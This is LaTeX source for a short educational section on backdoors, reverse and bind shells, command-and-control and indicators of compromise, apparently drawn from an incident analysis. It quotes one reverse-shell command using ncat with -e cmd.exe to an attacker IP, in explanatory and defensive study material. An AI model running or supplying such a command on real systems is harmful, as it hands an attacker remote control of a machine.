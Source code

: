 \documentclass[11pt]{article}
\begin{document}
	\subsubsection{Backdoors and Remote Access}
	A backdoor is a covert method of bypassing normal authentication or encryption in a computer system, an application, or an embedded device[cite: 118, 120, 251].
	\begin{itemize}
		\item \textbf{Definition:} It allows unauthorized remote access to a system, enabling attackers to control the compromised machine, exfiltrate data, or use it as a pivot point for further attacks.
		\item \textbf{Methods:} Backdoors can be established through various means, including exploiting vulnerabilities, installing malicious software, or using legitimate remote administration tools for malicious purposes. Common methods include:
		\begin{itemize}
			\item \textbf{Reverse Shells:} The compromised machine initiates an outbound connection to an attacker-controlled server. This is often used to bypass firewalls that restrict inbound connections. The command `ncat 172.20.10.15 12345 -e cmd.exe` in `cmd\_commands.txt` [cite: 253] attempts to establish a reverse shell.
			\item \textbf{Bind Shells:} The compromised machine opens a listening port, waiting for the attacker to connect.
		\end{itemize}
		\item \textbf{Command and Control (C2):} Attackers use C2 infrastructure to send commands to the backdoor and receive data.
		\item \textbf{IOCs:} Unexpected network connections (especially to unusual IP addresses or ports), new listening ports, unexplained system behavior, or new user accounts.
	\end{itemize}
	
\end{document}

